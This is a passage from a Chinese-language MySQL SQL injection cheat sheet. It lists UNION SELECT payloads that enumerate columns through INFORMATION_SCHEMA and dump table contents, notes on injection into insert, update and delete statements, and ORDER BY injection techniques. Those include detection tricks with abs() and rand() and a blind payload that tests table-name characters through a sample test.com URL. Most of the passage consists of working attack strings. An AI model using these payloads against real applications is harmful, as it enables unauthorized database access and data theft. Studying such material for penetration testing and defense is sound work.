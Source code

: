 ```text
UNION SELECT GROUP_CONCAT(column_name SEPARATOR+0x3c62723e) FROM+INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=0x7461626c656e616d65 #
```

#### 获取数据

```text
UNION SELECT GROUP_CONCAT(column_1,column_2 SEPARATOR+0x3c62723e) FROM databasename.tablename #
```

### insert/update/delete注入

参考：[SQL Injection in Insert Update and Delete Statements](https://www.exploit-db.com/docs/33253.pdf) 假设后台语句为：

```text
insert into user(id,name,pass) values (1,"chybeta","123456");
```

### order by后注入

此部分整理自[瞌睡龙:MySql注入科普](http://static.hx99.net/static/drops/tips-123.html) oder by由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。

#### 检测方法

一般带有oder或者orderby的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：[http://www.test.com/list.php?order=vote](http://www.test.com/list.php?order=vote) 根据vote字段排序。

找到投票数最大的票数num然后构造以下链接，看排序是否变化。：

```text
list.php?order=abs(vote-(length(user())>0)*num)+asc
```

还有一种方法不需要知道任何字段信息，使用rand函数：

```text
list.php?order=rand(true)
list.php?order=rand(false)
```

以上两个会返回不同的排序。

#### payload

判断表名中第一个字符是否小于128的语句如下：

```text
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### 报错注入

### 盲注
